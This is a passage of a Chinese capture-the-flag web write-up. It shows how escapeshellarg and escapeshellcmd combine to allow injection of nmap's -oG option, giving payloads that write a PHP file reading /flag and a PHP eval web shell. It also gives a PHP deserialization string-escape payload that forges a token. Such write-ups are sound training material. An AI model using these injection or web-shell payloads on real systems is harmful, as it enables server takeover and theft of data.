$sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
//代码生成一个名为 $sandbox 的目录名，该目录名是基于 "glzjin" 和客户端 IP 地址的 MD5 散列值。
echo 'you are in sandbox '.$sandbox;
@mkdir($sandbox);//在当前工作目录下创建了这个目录，并将工作目录切换到该目录中。
chdir($sandbox);
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
//执行了一个 nmap 命令来扫描用户提供的主机，扫描结果会被输出显示。
}审了半天不清楚利用点。。。。借助wp吧，太菜了
escapeshellarg()函数：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)
escapeshellcmd()函数：escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。
反斜线（\）会在以下字符之前插入： &#;`|?~<>^()[]{}$, \x0A 和 \xFF。 *’ 和 “ 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。上述太抽象，测试一番
<?php
$a=1;
echo $a;
echo '<br>';
$a=escapeshellarg($a);
echo $a;
echo '<br>';
$a=escapeshellcmd($a);
echo $a;
?>
escapeshellarg()函数将整个字符串加了单引号包裹，并且对单引号进行了转义，转义的单引号也使用了单引号包裹起来，然后用escapeshellcmd()函数进行了转义，成对出现的单引号不转义，对\进行了转义，对最后一个单引号（单个出现）进行了转义在看
传入的参数是：172.17.0.2’ -v -d a=1
经过escapeshellarg处理后变成了’172.17.0.2’‘’ -v -d a=1’，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成’172.17.0.2’\‘’ -v -d a=1’，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：
最后执行的命令是curl ‘172.17.0.2’\‘’ -v -d a=1’，由于中间的\被解释为\而不再是转义字符，所以后面的’没有被转义，与再后面的’配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1’，即向172.17.0.2\发起请求，POST 数据为a=1’。对ip进行加密，然后创建目录，输出system执行nmap命令后的结果，比如传入127.0.0.1，返回：

框起来的字符就是创建的目录路径
通过查资料得知nmap 中的-oG参数可以将命令和结果写入文件
一般flag都在根目录下，直接使用反引号进行命令执行
构造payload：
?host=' <?php echo `cat /flag`;?> -oG test.php '
//如此写是为了防止那两个函数的转义,详解如下访问该目录下的test.php即可


贴一下大佬的试错：
关于加不加最后的单引号或加不加 单引号前的空格做了结果展示
首先是后面没有加引号
?host=‘ <?php @eval($_POST["hack"]);?> -oG hack.php我们可以在线测试一下
‘‘\‘‘ <?php phpinfo();?> -oG test.php\‘返回结果是上面那样文件名后面会多一个引号
然后是加引号但引号前没有空格
?host=‘ <?php @eval($_POST["hack"]);?> -oG hack.php‘ 1
运行结果如下
‘‘\‘‘ <?php phpinfo();?> -oG test.php‘\‘‘‘文件名后面就会多出\
所以要注意细节
不过这个代码似乎没啥用
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {//判断是否存在xff头
$_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];参考文章：
web6
简单的php反序列化
index.php
<?php
# @dance.php
error_reporting(0);
class message{
public $cai;
public $xv;
public $kun;
public $token='lanqiu';
public function __construct($c,$x,$k){
$this->cai = $c;
$this->xv = $x;
$this->kun = $k;
}
}
$c = $_GET['c'];
$x = $_GET['x'];
$k = $_GET['k'];
if(isset($c) && isset($x) && isset($k)){
$msg = new message($c,$x,$k);//该类在dance.php中
$umsg = str_replace('okok', 'nonoo', serialize($msg));//估计就是字符串逃逸了
setcookie('msg',base64_encode($umsg));
echo 'Your message has been sent';
}
highlight_file(__FILE__);dance.php
<?php
include 'flag.php';
highlight_file(__FILE__);
class message{
public $cai;
public $xv;
public $kun;
public $token='lanqiu';
public function __construct($c,$x,$k){
$this->cai = $c;
$this->xv = $x;
$this->kun = $k;
}
}
if(isset($_COOKIE['msg'])){
$msg = unserialize(base64_decode($_COOKIE['msg']));
if($msg->token=='sings'){ //令token=sings即可得到flag
highlight_file('flag.php');
}
}
//$umsg = str_replace('okok', 'nonoo', serialize($msg));//估计就是字符串逃逸了这个文件就是关键了，开始测试
token我们不能直接传参，可以通过字符逃逸来完成。这里每一个okok字符串就会多一个字符。
用双引号将其闭合，所以我们可以在$kun赋值为";s:5:“token”;s:5:“sings”;}，这些就是我们要逃逸的字符，有27个，那么我们就加上27个okok字符串。payload为
?c=1&x=1&k=okokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokokok";s:5:"token";s:5:"sings";}web7
又是原p！！！，查看源代码也没啥信息，尝试扫目录

访问看看

没权限

有点懵，给了个序列化字符串，不知道啥意思，那就抓包看有啥惊喜

有点可疑，与序列化字符串相对应，尝试更换一下

得到base64，接下来反转一下解码即可
